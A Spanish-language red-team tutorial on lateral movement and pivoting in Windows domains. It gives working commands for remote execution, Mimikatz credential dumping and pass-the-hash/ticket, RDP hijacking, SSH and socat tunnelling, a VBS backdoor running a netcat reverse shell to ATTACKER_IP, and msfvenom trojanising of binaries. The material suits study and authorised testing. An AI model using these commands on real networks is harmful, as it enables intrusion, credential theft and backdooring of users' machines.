





# Movimiento Lateral y Pivoting

## Introducción

En este apartado se describe el movimiento lateral, las metodologías más comunes utilizadas en entornos reales y las herramientas necesarias para ejecutar estos desplazamientos minimizando la generación de alertas de seguridad.

## Desplazamiento a través de la red

### ¿Qué es el Movimiento Lateral?

El movimiento lateral es el ciclo iterativo de técnicas que permite a un atacante navegar por una red tras el compromiso inicial para alcanzar objetivos críticos, evadir restricciones y dificultar la detección. El proceso no es lineal: implica obtener acceso, elevar privilegios, extraer credenciales y saltar a nuevos hosts (pivoting) hasta llegar al destino final.

  

### Gestión de Privilegios y UAC en Movimiento Lateral

- **Restricción de Administradores Locales:** Por defecto, el Control de Cuentas de Usuario (UAC) limita las tareas administrativas remotas (vía RPC, SMB o WinRM) para todas las cuentas locales, a excepción de la cuenta "Administrator" integrada.

- **Ventaja de Cuentas de Dominio:** Las cuentas de dominio que pertenecen al grupo de administradores locales no sufren estas restricciones y operan con privilegios completos de forma remota.

- **Impacto en el Atacante:** Debido a este comportamiento, las cuentas de dominio son significativamente más efectivas y fiables para ejecutar técnicas de movimiento lateral en entornos Windows.

## Ejecución de Procesos de Forma Remota

Para realizar movimientos laterales, un atacante necesita ejecutar comandos en máquinas remotas donde ya posee credenciales válidas. A continuación se resumen los métodos y herramientas más comunes para la creación de procesos remotos:

### 1. PsExec (Sysinternals)

- **Puertos:** 445/TCP (SMB).

- **Funcionamiento:** Se conecta al recurso compartido `Admin$`, sube un binario de servicio (`psexesvc.exe`) y utiliza el Administrador de Control de Servicios (SCM) para ejecutarlo. Maneja la entrada/salida mediante *named pipes*.

- **Uso:** Requiere privilegios de administrador. Es la herramienta clásica para obtener una shell remota.

- **Ejemplo:** `psexec64.exe \\IP_OBJETIVO -u Administrator -p Pass123 -i cmd.exe`

### 2. Windows Remote Management (WinRM)

- **Puertos:** 5985/TCP (HTTP) o 5986/TCP (HTTPS).

- **Herramientas:** `winrs.exe` o PowerShell (`Enter-PSSession`, `Invoke-Command`).

- **Particularidad:** Es un vector muy atractivo porque suele estar habilitado por defecto en Windows Server. Permite ejecutar bloques de código de forma interactiva o directa.

- **Ejemplo:** `Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}`

### 3. Creación Remota de Servicios (sc.exe)

- **Puertos:** 135/TCP (RPC), 445/TCP (SMB), 139/TCP (NetBIOS) y el rango dinámico 49152-65535/TCP (DCE/RPC).

- **Concepto:** Se abusa de los servicios de Windows para ejecutar comandos arbitrarios al iniciarse. Aunque el servicio falle al no ser un binario de servicio real, el comando se ejecuta.

- **Limitación:** Es un ataque "ciego"; no se puede ver la salida del comando ya que lo ejecuta el sistema.

- **Ejemplo (Creación y Ejecución):**

  - `sc.exe \\TARGET create <nombre_servicio> binPath= "net user <usuario> <password> /add" start= auto`
  
  - `sc.exe \\TARGET start <nombre_servicio>`

- **Ejemplo (Limpieza):**
  
  - `sc.exe \\TARGET stop <nombre_servicio>`
  
  - `sc.exe \\TARGET delete <nombre_servicio>`

> [!IMPORTANT]
> **Nota de Sintaxis:** En el comando `sc.exe`, es obligatorio dejar un **espacio** después de los parámetros `binPath=` y `start=`.
>
> - `binPath= "..."` (Correcto)
>
> - `binPath="..."` (Error)

### 4. Tareas Programadas (schtasks)

- **Funcionamiento:** Permite crear una tarea en un host remoto que ejecute un comando o payload una sola vez (`/sc ONCE`).

- **Uso:** Al igual que los servicios, es un método ciego. Se recomienda eliminar la tarea tras su ejecución para no dejar rastro.

- **Ejemplo (Creación y Ejecución):**

  - `schtasks /s TARGET /RU "SYSTEM" /create /tn "Task1" /tr "comando" /sc ONCE /sd 01/01/1970 /st 00:00`

  - `schtasks /s TARGET /run /TN "Task1"`

- **Ejemplo (Limpieza):** `schtasks /S TARGET /TN "Task1" /DELETE /F`

### 5. Windows Management Instrumentation (WMI / CIM)

- **Puertos:** 135/TCP (RPC), el rango dinámico 49152-65535/TCP (DCE/RPC) y 5985-5986/TCP (WinRM).

- **Concepto:** WMI es la infraestructura de gestión de Windows que permite a los administradores (y atacantes) controlar sistemas de forma remota. Es una alternativa potente a `sc.exe` o `schtasks` para ejecutar procesos y gestionar el sistema de forma silenciosa.

- **Herramientas:** PowerShell (`Invoke-CimMethod`, `New-CimSession`) o la herramienta legada `wmic.exe`.

- **Ejemplo (Preparación de Sesión):**
  
  - `$credential = New-Object System.Management.Automation.PSCredential $user, $password`
  
  - `$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption (New-CimSessionOption -Protocol DCOM)`

- **Ejemplo (Ejecución de Proceso):**
  
  - `Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = "cmd.exe /c <comando>"}`
  
  - **Legacy:** `wmic /user:<usuario> /password:<pass> /node:TARGET process call create "calc.exe"`

- **Ejemplo (Gestión de Servicios):**
  
  - **Crear:** `Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{Name="<servicio>"; DisplayName="<servicio>"; PathName="<comando>"; ServiceType=[byte]16; StartMode="Manual"}`
  
  - **Iniciar:** `Invoke-CimMethod -InputObject (Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name='<servicio>'") -MethodName StartService`
  
  - **Limpieza:** `Invoke-CimMethod -InputObject $Service -MethodName StopService` y `... -MethodName Delete`

- **Ejemplo (Tareas Programadas):**
  
  - **Crear:** `Register-ScheduledTask -CimSession $Session -Action (New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c <comando>") -User "NT AUTHORITY\SYSTEM" -TaskName "<tarea>"`
  
  - **Ejecutar:** `Start-ScheduledTask -CimSession $Session -TaskName "<tarea>"`
  
  - **Limpieza:** `Unregister-ScheduledTask -CimSession $Session -TaskName "<tarea>"`

- **Ejemplo (Instalación MSI):**
  
  - `Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\ruta\<instalador>.msi"}`

> [!TIP]
> **Detección:** WMI es muy potente pero genera eventos de registro específicos (Event ID 4688). El uso de `wmic.exe` está más vigilado por los EDR modernos que los cmdlets nativos de CIM en PowerShell.

### Comparativa de Métodos de Ejecución Remota

| Método | Protocolo Principal | Visibilidad de Salida |
| :--- | :--- | :--- |
| **PsExec** | SMB | Sí (Interactiva) |
| **WinRM** | HTTP/HTTPS | Sí |
| **SC / Servicios** | RPC/SMB | No (Ciego) |
| **Schtasks** | RPC/SMB | No (Ciego) |
| **WMI/CIM** | RPC/WinRM | No (Ciego) |

## Uso de Material de Autenticación Alternativo

El material alternativo permite acceder a cuentas de Windows sin conocer la contraseña, aprovechando el funcionamiento de los protocolos NTLM y Kerberos.

### 1. Autenticación NTLM y Pass-the-Hash (PtH)

- **Funcionamiento:** El cliente recibe un "desafío" (nonce) del servidor y responde cifrándolo con el hash de su contraseña. El Domain Controller valida la respuesta recalculándola con el hash almacenado. Como el hash es la clave de cifrado, extraerlo de la SAM o LSASS permite suplantar al usuario sin conocer la contraseña (PtH).

  

- **Extracción de Hashes (Mimikatz):**

  - **SAM Local:** `lsadump::sam` (Solo usuarios locales).
  
  - **Memoria LSASS:** `sekurlsa::msv` (Usuarios locales y de dominio que han iniciado sesión recientemente).

- **Ejemplo de Ataque (Mimikatz):**

  - Inyectar el hash en un proceso: `sekurlsa::pth /user:<usuario> /domain:<dominio> /ntlm:<hash_ntlm> /run:"<comando>"`

  - *Nota:* Si se usa desde una shell con privilegios elevados, se recomienda ejecutar `token::revert` antes de lanzar el comando.

- **PtH desde Linux (Herramientas):**

  - **RDP:** `xfreerdp /v:<IP> /u:<usuario> /pth:<hash_ntlm>`

  - **PsExec:** `psexec.py -hashes :<hash_ntlm> <dominio>/<usuario>@<IP>`

  - **WinRM:** `evil-winrm -i <IP> -u <usuario> -H <hash_ntlm>`

### 2. Autenticación Kerberos y Pass-the-Ticket (PtT)

- **Funcionamiento:** Se basa en un sistema de tickets emitidos por el KDC (Domain Controller). El **TGT** sirve para demostrar identidad y el **TGS** para acceder a servicios específicos. Si se extrae de la memoria un ticket válido junto a su clave de sesión, es posible suplantar al usuario sin conocer su contraseña (PtT).

  

- **Extracción e Inyección (Mimikatz):**

  - **Exportar tickets de memoria:** `sekurlsa::tickets /export` (Genera archivos `.kirbi`).

  - **Inyectar ticket en la sesión actual:** `kerberos::ptt <archivo_ticket>.kirbi`

  - **Verificar inyección:** Usar el comando nativo `klist`.

### 3. Overpass-the-Hash / Pass-the-Key (PtK)

- **Concepto:** Similar a PtH pero para Kerberos. Se utilizan las claves de cifrado (RC4, AES128/256) extraídas de la memoria para solicitar un TGT directamente al KDC (Domain Controller).

- **Extracción de Claves:** `sekurlsa::ekeys`

- **Ejemplo de Ataque (Mimikatz):**

  - **Usando AES256:** `sekurlsa::pth /user:<usuario> /domain:<dominio> /aes256:<hash_aes256> /run:"<comando>"`

  - **Usando RC4 (Overpass-the-Hash):** El hash RC4 es idéntico al hash NTLM. Si RC4 está habilitado, puedes usar el hash NTLM para obtener un ticket Kerberos legítimo.

> [!TIP]
> **Diferencia Clave:** Mientras que **Pass-the-Hash** actúa sobre el protocolo NTLM, **Overpass-the-Hash** utiliza el hash para obtener un ticket de Kerberos, permitiendo una integración más "natural" con servicios que requieren Kerberos.

## Abuso del Comportamiento del Usuario

Los atacantes pueden aprovechar acciones comunes de usuarios y administradores para ganar acceso a otros sistemas de la red.

### A. Abuso de Carpetas Compartidas (Escritura)

- **Concepto:** Si un atacante tiene permisos de escritura en una carpeta compartida que otros usuarios utilizan (ej. para ejecutar herramientas o scripts), puede modificar esos archivos para ejecutar código malicioso en la máquina del usuario que los abra.

- **Backdoor en Scripts (.vbs):** Se inyecta código para que, al ejecutar el script, se descargue y ejecute un payload (ej. `nc64.exe`) desde el share hacia la carpeta `%temp%` local.
  
  - **Ejemplo:** `CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\<IP_SHARE>\<CARPETA>\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <ATTACKER_IP> <PORT>", 0, True`

- **Backdoor en Binarios (.exe):** Se descarga un ejecutable legítimo (ej. `putty.exe`) y se le inyecta un payload con `msfvenom` antes de volver a subirlo al share.
  
  - **Comando:** `msfvenom -a x64 --platform windows -x <original.exe> -k -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -b "\x00" -f exe -o <backdoored.exe>`

### B. Secuestro de RDP (RDP Hijacking)

- **Concepto:** En Windows Server 2016 y versiones anteriores, si un usuario (especialmente un Administrador) cierra el cliente RDP en lugar de cerrar la sesión (*log off*), su sesión queda activa. Un atacante con privilegios de **SYSTEM** puede tomar el control de esa sesión sin conocer la contraseña.

- **Requisito:** Es indispensable ejecutar los comandos como **SYSTEM** (ej. usando `psexec -s cmd.exe`).

- **Proceso:**

  1. **Listar sesiones:** `query user` (Identificar el ID de la sesión en estado "Disc" o "Active").

  2. **Conectar a la sesión:** `tscon <ID_DESTINO> /dest:<NUESTRA_SESIÓN>`

     - *Ejemplo:* Si queremos entrar en la sesión 3 y nuestra sesión actual es `rdp-tcp#6`, usamos: `tscon 3 /dest:rdp-tcp#6`

> [!WARNING]
> **Limitación:** Windows Server 2019 y versiones posteriores han corregido este comportamiento; ahora requieren la contraseña del usuario para realizar el cambio de sesión.

## Pivotaje y Port Forwarding (Tunnelling)

Cuando los firewalls bloquean el acceso directo a puertos críticos (SMB, RDP, WinRM), utilizamos una máquina comprometida que hace de salto para redirigir el tráfico. A esa máquina se la conoce como **Jump Box**.

### A. SSH Tunnelling (Remoto y Local)

Windows incluye el cliente OpenSSH por defecto. Usamos un usuario sin privilegios en nuestra máquina atacante (`tunneluser`) para recibir la conexión.

- **Remote Port Forwarding (-R):** "Proyecta" un puerto del objetivo interno en nuestra máquina atacante. Útil si tenemos acceso por consola pero queremos usar herramientas gráficas (como RDP) desde Linux.

  - **Comando (en PC comprometido):** `ssh <user>@<attacker_ip> -R <puerto_en_attacker>:<IP_objetivo>:<puerto_objetivo> -N`

  - **Ejemplo:** `ssh tunneluser@1.1.1.1 -R 8080:3.3.3.3:3389 -N`
  
    *Explicación: Abre el puerto **8080** en la máquina atacante (1.1.1.1). Todo lo que llegue ahí se tuneliza hacia el puerto **3389** del servidor objetivo (3.3.3.3).*

  

- **Local Port Forwarding (-L):** "Trae" un servicio de nuestra máquina atacante hacia la red interna. Útil para servir reverse shells o exploits a máquinas que no tienen salida a internet.

  - **Comando (en PC comprometido):** `ssh <user>@<attacker_ip> -L *:<puerto_en_jumpbox>:127.0.0.1:<puerto_en_attacker> -N`

  - **Ejemplo:** `ssh tunneluser@1.1.1.1 -L *:8080:127.0.0.1:80 -N`
  
    *Explicación: Abre el puerto **8080** en el Jump Box. Cualquier máquina interna que conecte al Jump Box por ese puerto será redirigida al puerto **80** de nuestra máquina atacante.*

  - **Nota:** Requiere abrir el puerto en el firewall de la máquina de salto: `netsh advfirewall firewall add rule name="Open Port" dir=in action=allow protocol=TCP localport=<puerto>`

  

### B. Port Forwarding con Socat

Alternativa cuando SSH no está disponible. Es más fácil de usar pero requiere subir el binario `socat.exe` a la máquina de salto (más ruidoso).

- **Concepto:** Abre un puerto en la máquina de salto que "puentea" todo el tráfico hacia otra IP/Puerto.

- **Comando (Redirigir RDP):** `socat TCP4-LISTEN:3389,fork TCP4:<IP_objetivo>:3389`

- **Comando (Redirigir HTTP):** `socat TCP4-LISTEN:80,fork TCP4:<IP_atacante>:80`

- **Nota:** Al igual que en SSH Local, requiere abrir el puerto en el firewall de la máquina de salto mediante el comando `netsh`.

  

### C. Dynamic Port Forwarding (SOCKS Proxy)

Ideal cuando necesitamos escanear múltiples puertos o máquinas a través del pivot sin configurar túneles individuales.

- **Configuración (SSH):** `ssh <user>@<attacker_ip> -R 9050 -N`

  - Esto levanta un SOCKS proxy en el puerto 9050 de nuestra máquina atacante.

- **Uso con Proxychains:**

  1. Configurar `/etc/proxychains.conf` con `socks4 127.0.0.1 9050`.

  2. Ejecutar herramientas a través del túnel: `proxychains nmap -sT -Pn <IP_interna>`

> [!IMPORTANT]
> **Tip de Herramientas:** Nmap puede dar resultados inconsistentes a través de SOCKS (especialmente con escaneos SYN `-sS`). Se recomienda usar escaneos TCP Connect `-sT`.

  

## Conclusión y Recursos de Movimiento Lateral (Pivoting)

En esta sección se han analizado las diversas estrategias para desplazarse por una red una vez obtenidas credenciales válidas. Desde una perspectiva de **Red Team**, disponer de múltiples técnicas es vital, ya que las restricciones de seguridad (segmentación, firewalls, EDR) varían en cada entorno y pueden bloquear métodos específicos.

Aunque a menudo el movimiento lateral y el pivoting se ejecutan en conjunto, representan dos fases distintas de la post-explotación:

- **Movimiento Lateral (Horizontal):** Es el acto de saltar de un host a otro **dentro del mismo nivel de confianza o segmento de red**. Se basa en el robo de identidades (Pass-the-Hash, Kerberoasting) para obtener acceso a nuevas máquinas con las mismas o mejores credenciales.

  - *Objetivo:* Ampliar el radio de control y recolectar más información/hashes.

- **Pivoting (Vertical/Tunnelling/Proxying):** Es el acto de usar una instancia comprometida como **"puente" o "proxy" para alcanzar segmentos de red** que antes eran invisibles para el atacante (VLANs internas, bases de datos aisladas). Es una técnica de enrutamiento de red, no necesariamente de robo de credenciales.
  
  - *Objetivo:* Romper el aislamiento de red para llegar a activos críticos.

**En resumen:** El **Movimiento Lateral** es sobre *Quién eres* (Credenciales), mientras que el **Pivoting** es sobre *Dónde puedes llegar* (Conectividad).

### Herramientas Avanzadas de Tunnelling (Pivoting)

Para escenarios donde las herramientas nativas fallan o son detectadas:

- **Sshuttle:** Crea una VPN sobre SSH; evita configurar proxies en cada herramienta.

- **Rpivot:** Proxy SOCKS inverso; excelente para evadir firewalls de entrada.

- **Chisel:** Túnel TCP/UDP sobre HTTP; ideal para evadir inspecciones web.

- **Shadowmove:** Secuestro de sockets para ocultar el tráfico en procesos legítimos.
